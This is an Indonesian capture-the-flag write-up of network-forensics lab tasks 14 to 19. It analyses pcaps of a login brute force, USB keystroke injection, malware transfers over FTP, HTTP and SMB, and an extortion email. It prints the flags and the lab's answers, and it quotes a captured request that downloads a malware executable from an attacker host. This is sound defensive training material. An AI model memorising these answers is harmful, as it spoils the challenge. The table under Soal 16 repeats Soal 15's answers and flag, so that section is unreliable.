## Soal 14
**Deskripsi Soal:** Eiri gagal masuk lewat FTP, sehingga coba serangan brute-force ke form login web punya Alice.

**File capture:** `wired_bruteforce.pcapng`

**Analisis:** alamat IP penyerang, target IP beserta port yang diserang, password user `lain_admin`, web server software dan versi yang dilaporkan pada response header

**Validasi:** 
``` 
nc 10.4.89.247 3401 
```

### Penyelesaian dan Hasil Analisis
1. Filter dengan `http.request.method == "POST"` di kolom filter (menyaring semua request POST dan biasanya digunakan untuk mengirim username dan password)

2. Terlihat banyak request `POST /login.php` yang berulang-ulang ke IP yang sama:
   - **Source (IP penyerang):** `172.26.7.50`
   - **Destination (IP target):** `172.26.7.100`, port tujuan **8080**
3. Ganti filter dengan `http.response.code == 200` (mencari respon berhasil login, respon status 200)

4. Pada paket response yang sukses tadi **Follow > HTTP Stream**


5. Ditemukan:
   - Kredensial: `username=lain_admin&password=wired_pr0tocol_7`
   - Header response server: `Server: Apache/2.4.62`

### Hasil Validasi
| Pertanyaan | Jawaban |
|---|---|
| IP penyerang | `172.26.7.50` |
| IP:Port target | `172.26.7.100:8080` |
| Password user `lain_admin` yang berhasil | `wired_pr0tocol_7` |
| Web server & versi | `Apache/2.4.62` |
**Flag:** `KOMJAR26{W1r3d_Brut3_WWhushWurqOHdQEJJgBB2eRtO}`


## Soal 15
**Deskripsi Soal:** Eiri menyusup ke ruang server dan memasang perangkat keyboard USB berbahaya pada node Alice.

**File capture:** `wired_usb_hid.pcap`

**Analisis:** Vendor ID, Product ID, alamat nomor device USB, pesan rahasia

**Validasi:** 
``` 
nc 10.4.89.247 3402
```

### Penyelesaian dan Hasil Analisis
1. Menemukan **GET DESCRIPTOR Response DEVICE**. Dalam bagian detail paket DEVICE DESCRIPTOR ditemukan:
   - **idVendor:** `Logitech, Inc. (0x046d)`
   - **idProduct:** `Keyboard K120 (0xc31c)`
   
2. Mencari **device address** keyboardnya menggunakan tshark di terminal:
   ```
   tshark -r wired_usb_hid.pcap -T fields -e usb.device_address | sort -u
   ```
   Hasilnya keluar beberapa angka, yang jadi device address keyboard adalah **7**.
   
3. Membaca isi keystroke dengan command:
   ```
   tshark -r wired_usb_hid.pcap -Y "usb.capdata" -T fields -e usb.capdata
   ```
   Data yang keluar itu masih berupa hex code keycode USB HID (belum berupa huruf).
   
   
4. Membuat script Python `decode.py`

5. Jalankan `python3 decode.py`, hasilnya:
   ```
   Wired_Protocol_7_is_alive_2026
   ```
   
### Hasil Validasi
| Pertanyaan | Jawaban |
|---|---|
| Vendor ID | `0x046d` |
| Product ID | `0xc31c` |
| Device address keyboard | `7` |
| Pesan rahasia hasil decode keystroke | `Wired_Protocol_7_is_alive_2026` |
**Flag:** `KOMJAR26{USB_K3ystr0k3_mYabUdIBc1A2CHe51e3OG1H4Q}`


## Soal 16
**Deskripsi Soal:** Eiri menaruh file malware ke server melalui FTP.

**File capture:** `wired_ftp_theft.pcap`

**Analisis:** lalu lintas FTP untuk mengidentifikasi alamat IP server FTP penyerang, banner software FTP yang digunakan, kredensial login penyerang, serta ukuran (size in bytes) dari file malware knights_payload.exe yang diunduh

**Validasi:** 
``` 
nc 10.4.89.247 3403
```

### Penyelesaian dan Hasil Analisis
1. Filter file malware-nya (`knights_payload.exe`), langsung filter aja:
   ```
   ftp contains "knights_payload.exe"
   ```
   
2. Menemukan paket **STOR** (perintah FTP buat upload file) dan response-nya. Dari situ:
   - **IP server FTP** (yang dituju attacker) = `198.51.100.7`
   - **Ukuran file** kelihatan di response: `524288 bytes`
3. Mencari banner FTP server, scroll ke awal koneksi FTP (paket pertama setelah TCP handshake), bakal ada response:
   ```
   220 Welcome to Wired FTP Server (vsftpd 3.0.5)
   ```
   
4. Mencari kredensial login attacker, cari pasangan paket `USER` dan `PASS` yang **langsung diikuti dengan aktivitas upload/STOR** (bukan percobaan login lain kayak `alice`, `mika`, atau `guest` yang cuma numpang lewat). Ditemukan:
   ```
   User: alice
   Password: alicepass2026

   User: mika
   Password: mikapass2026

   user: guest
   Password: guest

   USER knights_agent
   PASS N4v1_s3cur3_2026
   ```
   Login ini yang berhasil dan langsung dipakai buat upload `knights_payload.exe`.
   
   
   
   
   
### Hasil Validasi
| Pertanyaan | Jawaban |
|---|---|
| Vendor ID | `0x046d` |
| Product ID | `0xc31c` |
| Device address keyboard | `7` |
| Pesan rahasia hasil decode keystroke | `Wired_Protocol_7_is_alive_2026` |
**Flag:** `KOMJAR26{USB_K3ystr0k3_mYabUdIBc1A2CHe51e3OG1H4Q}`


## Soal 17
**Deskripsi Soal:** Alice membuat web, dan Eiri memanfaatkan celah untuk mendownload payload berbahaya ke sistem Alice.

**File capture:** `wired_http_c2.pcap`

**Analisis:** nama domain (Host) tempat malware diunduh, alamat IP server penyerang, nama file executable malware yang diunduh, serta kode status HTTP yang dikembalikan

**Validasi:** 
``` 
nc 10.4.89.247 3404
```

### Penyelesaian dan Hasil Analisis
1. Filter `http.request` buat lihat semua request HTTP yang ada.

2. Mencari request `GET` yang paling mencurigakan yaitu yang minta file `.exe`. Ketemu:
   ```
   GET /navi_agent.exe HTTP/1.1
   Host: wired-update.net
   ```
   - **Host (nama domain)** tempat malware diunduh: `wired-update.net`
   - **IP tujuan** (server penyerang) request ini: `203.0.113.42`
   - **Full Request URI**: `http://wired-update.net/navi_agent.exe`
3. **Follow > HTTP Stream:** 
   ```
   HTTP/1.1 200 OK
   Content-Type: application/octet-stream
   Content-Disposition: attachment; filename="navi_agent.exe"
   ```
   Status code-nya **200** (artinya file berhasil didownload).
   
   
### Hasil Validasi
| Pertanyaan | Jawaban |
|---|---|
| Domain (Host) tempat malware diunduh | `wired-update.net` |
| IP server penyerang | `203.0.113.42` |
| Nama file executable malware | `navi_agent.exe` |
| Kode status HTTP | `200` |
**Flag:** `KOMJAR26{Navi_C2_D0wnl04d_C53TYxuAheyRSIln2ofntzcjE}`


## Soal 18
**Deskripsi Soal:** Eiri mengubah taktik dengan menanamkan file malware dengan protokol SMB.

**File capture:** `wired_smb_transfer.pcapng`

**Analisis:** nama protokol jaringan yang dieksploitasi, IP pengirim dan penerima, folder tujuan penyimpanan malware pada sistem korban, serta nama file executable malware yang ditransfer

**Validasi:** 
``` 
nc 10.4.89.247 3405
```

### Penyelesaian dan Hasil Analisis
1. Filter `smb2` untuk menyaring semua trafik SMB versi 2 ini protokol jaringan yang dieksploitasi.

2. Mencari paket **Tree Connect Request** (ini permintaan buat "connect" ke sebuah folder/share di komputer korban). Dari situ ketemu:
   - **Source IP**: `10.7.3.100`
   - **Destination IP**: `10.7.1.50`
   - **Path/Tree yang dituju**: `\\10.7.1.50\ADMIN$`
   
3. Mencari nama file yang ditransfer, filter tambahan `smb2.filename`. Ditemukan:
   ```
   wired_trojan_payload.exe
   ```
   
   
### Hasil Validasi
| Pertanyaan | Jawaban |
|---|---|
| Protokol jaringan yang dieksploitasi | `smb2` |
| IP pengirim | `10.7.3.100` |
| IP penerima (korban) | `10.7.1.50` |
| Folder tujuan penyimpanan malware | `\\10.7.1.50\ADMIN$` |
| Nama file executable malware | `wired_trojan_payload.exe` |
**Flag:** `KOMJAR26{SMB_Tr4nsf3r_B9I9ClCgKxP2F3kIJeP8V36ap}`


## Soal 19
**Deskripsi Soal:** Eiri meneror jaringan dengan mengirimkan email pemerasan melalui protokol SMTP tanpa enkripsi.

**File capture:** `wired_smtp_threat.pcap`

**Analisis:** alamat email korban yang ditargetkan, password korban yang diklaim bocor oleh penyerang, jenis malware yang diinfeksikan, batas waktu (dalam hari) yang diberikan, serta MailClientID yang tercantum pada pesan

**Validasi:** 
``` 
nc 10.4.89.247 3406
```

### Penyelesaian dan Hasil Analisis
1. Filter `smtp || tcp.port == 25`, port 25 itu port standar buat protokol SMTP (kirim email).

2. Klik salah satu paket di percakapan itu: **Follow > TCP Stream**, biar kelihatan seluruh isi percakapan SMTP (mulai `HELO`, `MAIL FROM`, `RCPT TO`, sampai `DATA`) dalam satu tampilan yang enak dibaca.

3. Kalau ada lebih dari satu TCP stream di situ, cek satu-satu sampai ketemu yang isinya email ancaman/pemerasan (bukan cuma email laporan biasa).

4. Dari isi stream yang berisi ancaman, ketemu detail:
   - **Email korban** yang dituju (`RCPT TO`): `victim@protocol7.co.jp`
   - **Password yang diklaim bocor** oleh pemeras: `pr0tocol_7_user`
   - **Jenis malware** yang diklaim menginfeksi: `ransomware`
   - **Batas waktu** bayar yang dikasih: `3` hari
   - **MailClientID** yang tercantum di bagian bawah pesan: `7719980706`
   
### Hasil Validasi
| Pertanyaan | Jawaban |
|---|---|
| Email korban | `victim@protocol7.co.jp` |
| Password yang diklaim dicuri | `pr0tocol_7_user` |
| Jenis malware yang diklaim menginfeksi | `ransomware` |
| Batas waktu (hari) | `3` |
| MailClientID | `7719980706` |
**Flag:** `KOMJAR26{SMTP_Ext0rt10n_0r64rNffFpoleFtK5JMdZ0Lul}`


## Soal 20
